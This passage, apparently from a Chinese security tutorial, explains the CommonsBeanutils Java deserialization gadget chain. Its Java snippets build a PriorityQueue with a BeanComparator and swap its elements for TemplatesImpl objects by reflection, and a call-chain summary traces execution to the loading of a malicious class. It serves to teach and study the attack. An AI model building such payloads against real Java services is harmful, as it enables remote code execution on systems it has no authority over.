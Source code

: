 最后触发到**`BeanComparator.compare()`**中.完成上面的步骤.

所以**PriorityQueue 构造流程**

**（1）初始化 PriorityQueue**

```
PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
```

- **参数说明**：`2`：初始容量（至少 2 个元素才能触发 `heapify()`）。
- `comparator`：`BeanComparator`，用于比较元素。

**（2）填充队列**

```
queue.add(1);
queue.add(1);
```

- 先添加两个占位元素（`1`），确保 `size >= 2`。

**（3）替换队列元素为 TemplatesImpl**

```
Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = templates;
```

- 通过反射修改 `queue`数组，将元素替换为 `TemplatesImpl`实例。

**（4）设置 BeanComparator 的比较属性**

```
setFieldValue(comparator, "property", "outputProperties");
```

- 让 `BeanComparator.compare()`调用 `templates.getOutputProperties()`。

#### 总结

> PriorityQueue.readObject()
>     → heapify()
>         → siftDown()
>             → siftDownUsingComparator()
>                 → comparator.compare() // BeanComparator.compare()
>                     → PropertyUtils.getProperty()
>                         → TemplatesImpl.getOutputProperties()
>                             → defineTransletClasses()
>                                 → defineClass() // 加载恶意类
>                                     → <clinit> 或构造函数执行恶意代码





